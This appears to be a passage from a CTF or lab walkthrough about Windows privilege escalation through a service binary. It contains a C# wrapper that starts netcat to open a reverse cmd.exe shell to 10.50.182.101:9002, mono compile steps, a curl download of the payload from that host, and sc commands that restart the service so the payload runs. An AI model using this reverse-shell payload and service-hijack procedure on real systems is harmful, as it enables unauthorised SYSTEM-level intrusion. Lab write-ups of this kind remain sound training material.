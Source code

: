 ```
         NT SERVICE\TrustedInstaller Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         BUILTIN\Administrators Allow  FullControl
```

We will use a custom payload to exploit this.

```
⛩\> cat Wrapper.cs
using System;
using System.Diagnostics;
namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc_shell.exe", "10.50.182.101 9002 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```

We will take advantage of previously uploaded netcat one more time. To compile this code, we need to install mono application.

```
⛩\> sudo apt install mono-devel
```

Once installed, we can compile it and rename it.

```
⛩\> mcs Wrapper.cs

⛩\> file Wrapper.exe
Wrapper.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows

⛩\> mv Wrapper.exe System.exe
```

Make sure to start a listener on Kali Linux. Download this binary to below directory via curl and then stop and start the service.

```
C:\Program Files (x86)\System Explorer>curl http://10.50.182.101:9090/System.exe -o System.exe

C:\Program Files (x86)\System Explorer>sc stop SystemExplorerHelpService

C:\Program Files (x86)\System Explorer>sc start SystemExplorerHelpService
```
